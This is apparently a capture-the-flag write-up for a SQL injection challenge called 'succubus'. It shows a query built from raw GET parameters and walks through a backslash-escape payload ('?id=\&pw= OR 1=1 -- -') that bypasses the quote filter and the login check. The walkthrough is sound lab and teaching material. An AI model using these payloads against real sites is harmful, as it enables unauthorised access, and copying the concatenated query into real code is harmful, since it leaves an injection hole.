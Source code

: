 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 16
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/2a9c4032-64cc-47b9-9c0f-ac36fc7a30d0)

We are provided with the SQL query:

```sql
SELECT id FROM prob_succubus WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

We cannot use single or double quotes in this challenge. Therefore, we need to find another way to modify the existing query.

Let's provide the following URI:

```
?id=\
```

The resultant query becomes:

```sql
SELECT id FROM prob_succubus WHERE id='\' AND pw='{$_GET[pw]}'
```

As we can see, now the `\' AND pw=` part is being treated as a string. This is because the `\` character tells the code to ignore the following character which was the closing single quote.

Anything we insert into the `?pw` parameter will thus be treated as code.

If we provide the following URI:

```
?id=\&pw= OR 1=1 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_succubus WHERE id='\' AND pw=' OR 1=1 -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/36ca117e-f23f-4700-ae78-4f81102e8922)
